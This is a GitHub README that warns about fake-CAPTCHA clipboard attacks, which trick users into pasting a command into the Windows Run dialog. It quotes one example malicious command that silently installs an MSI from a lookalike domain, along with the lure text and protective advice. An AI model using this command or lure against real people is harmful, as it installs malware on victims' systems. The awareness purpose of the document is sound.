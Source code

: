 # CAPTCHA Social Engineering Attack – A Silent Threat You Should Know About

![CAPTCHA Attack Banner](https://example.com/captcha-attack-banner.png) <!-- Optional GitHub Banner Image URL -->

## 📖 Overview

In today’s cybersecurity landscape, attackers are becoming smarter and using creative ways to trick unsuspecting users. One such dangerous and deceptive technique is called a **CAPTCHA Social Engineering Attack** — a method that abuses the familiar "I'm not a robot" CAPTCHA to compromise your system.

---

## ⚙️ How This Attack Works

1. You visit a suspicious or malicious website.
2. The site shows a seemingly legitimate CAPTCHA — similar to Google or Cloudflare’s human verification.
3. Believing it’s genuine, you click the CAPTCHA checkbox.
4. **Silently, a malicious command gets copied into your clipboard** without your knowledge. Example:

```
msiexec /qn /i https://clloudsverify.com/o.msi
```

5. Then you see a message like this:

> "To complete the verification process, press **Win + R**, then **Ctrl + V**, and hit Enter."

6. Once you obey:

   * **Win + R** opens the Run dialog.
   * **Ctrl + V** pastes the malicious command.
   * **Enter** executes it.

This installs malware silently — no alerts, no warnings.

---

## 🎯 Why This Attack is Dangerous

* **Trust Exploitation**: Users assume CAPTCHA equals safety.
* **Clipboard Hijacking**: Code is injected silently.
* **Social Engineering**: Users are tricked into executing commands.
* **Stealthy Execution**: The command uses Windows Installer (`msiexec`) in quiet mode (`/qn`) to avoid detection.

---

## 💥 Potential Impacts

* ⚠️ Full system compromise
* ⚠️ Theft of credentials, files, personal data
* ⚠️ Installation of Remote Access Trojans (RATs)
* ⚠️ Long-term backdoor access for attackers

---

## 🛡️ How to Protect Yourself

✅ **Never follow online instructions** asking you to use Win + R and paste commands.

✅ **Always check clipboard content** before pasting — open Notepad, press Ctrl + V, and inspect.

✅ **Avoid unknown or suspicious websites**.

✅ **Keep security software updated**.

✅ **Educate others** about such modern social engineering methods.

---

## 🚫 Important Reminder

Just because a CAPTCHA appears doesn’t mean a site is trustworthy. Fake CAPTCHAs can easily be weaponized for such attacks.

> **Stay alert. Stay secure.** 🔐

---

## 📜 License

This project is licensed under the **MIT License** — see the [LICENSE](LICENSE) file for details.

---

## 🏷️ GitHub Topics

`cybersecurity` `social-engineering` `clipboard-attack` `malware` `security-awareness` `hacking` `information-security` `cyber-threats`

---

## 🙌 Contributions

Contributions, suggestions, and improvements are welcome. Feel free to open an Issue or Pull Request.

---

## 🔗 Author

**Md Jahid Hasan Antor**
[LinkedIn]([https://www.linkedin.com/in/jahid-hasan-antor/]) | [GitHub](https://github.com/AntorDOS)

---

*This repository is intended for educational and awareness purposes only.*
